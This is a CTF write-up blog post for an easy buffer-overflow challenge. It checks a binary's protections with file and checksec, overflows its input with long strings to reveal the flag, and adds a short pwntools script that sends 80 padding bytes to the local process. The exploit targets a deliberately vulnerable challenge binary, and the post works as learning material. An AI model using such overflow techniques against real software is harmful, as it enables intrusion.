 ```yaml
---
title: "pwn - Buffer overflow"
date: 2023-05-20 15
time: 15:40:00 +0300
image: /assets/img/Posts/overflow.PNG
categories: [InterUniCTF, KCA, Easy]
tags: [pwn, reversing, overflow, binary, ghidra, pwntools, msf_modules]
---
```


> In this writeup, i will demostrate how to use basic tools to reverse a binary, determine the offset of the buffer using msf modules and automate the exploitation using pwntools.
{: .prompt-tip }

## Lets get started

Download the binary to our local machine. You can get the a copy of the binary from [here](/assets/img/Posts/buffer-overflow/chall). First thing i do after i get a binary in my machine is checking the file description by running `file <binary>`. We see that it is a  64-bit architecture, dynamically linked and it is not stripped which means we can get to see the source code when we use `ghidra`. In this challenge we will not need it.

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ file chall 
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a485af73b0e8f94c6fa49af674e6aaaad3af1180, for GNU/Linux 3.2.0, not stripped
```

With that information we can move on and check the security set in the file using `checksec --file <binary>`

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ checksec --file chall 
[*] '/home/kali/hacks/kca/pwn/overflow/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

We see that there is no `stack canary` which means stack values have no security that could protect them from buffer overflow. NX - non-executable or non execute is enabled which means that we cannot execute our injected data in the memory. and finally `PIE (Position Independent Executable)` is enabled too. So this program will not be using a static virtual address hence it will be changing every time we run it. Read more on binary files security [here](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/)

## Fun part

make it executable `chmod +x <binary>`

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ chmod +x chall
```
Going on and executing it asks us to overflow the buffer. simple, right? trying  sending some several A's we get no result. Adding some more we get an error `Error opening file, talk to admin!`. Sweeeeeet
Which file is it trying to open? because it is a CTF it must be a flag file.

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ ./chall                 
Overflow to get the flag: aaaaaaaaaaa
                                                                                                                                                                       
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ ./chall
Overflow to get the flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Error opening file, talk to admin!                                                                                                                                                                       
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ 
```
Created a dummy in `flag.txt` file in the same directory. Ran it again with buffer and booooooooom we get the flag.

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ ./chall      
Overflow to get the flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
flag{1t_mU5t_b3_y0U}
```

### Conclusion
> The challenge never required any advanced knowlegde of binary exploitation or buffer overflow stuffs. It was just sending enough buffer to overflow it and just like that it gave you the flag.

## Bonus section
Well, let me write a python script using pwntools to automate the above explotation. It is not necessary but one can get a basic understanding of how to use pwntools. 

```python
from pwn import *

p = process("./chall")


#send any size of buffer. i mean it should be large enough
payload = b''
payload += b'\x90'*80

p.recvuntil("flag: ")
p.sendline(payload)
print(p.recv())

```